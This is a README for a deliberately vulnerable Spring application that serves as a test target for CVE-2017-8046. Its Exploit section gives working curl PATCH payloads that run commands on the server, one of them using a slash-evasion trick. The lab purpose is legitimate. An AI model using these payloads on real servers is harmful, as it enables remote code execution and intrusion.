 # Spring Break Vulnerable Application

This is a vulnerable application to test the exploit for the **Spring Break** vulnerability (**CVE-2017-8046**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application (SpringBreakVulnerableApp). The only purpose of this application is to be a test scenario for the Spring Break exploit and it should not be used maliciously. If your server is compromised via an installation of SpringBreakVulnerableApp it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.

## Usage

The application can be launched with the following Maven command.

```
mvn spring-boot:run
```
To insert data you can use the following curl command.

```
curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity
```

## Exploit

Probably the simplest exploit is the following request.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Thread).sleep(10000).x", "value" : "pwned" }]' "http://hostname:port/entity/1"
```

On Windows, the `calc.exe` process can be launched with the following request. Similar requests can be used to launch arbitrary commands.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

To obtain the output of launched commands, some "gadgets" offered by Spring Framework code can be used. Luckily, no external dependencies are required. For example, the result of `ipconfig` command can be retrieved with the following request.

```
T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x
```

On Windows, a `cmd /c dir` command, and other similar commands, can be launched with the following request. Please note the trick used to insert the slash char avoiding the explicit value (i.e. explicit slashes are replaced with dots befor the real parsing).

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"cmd \" + T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F)) + \"c dir\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the MIT License - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability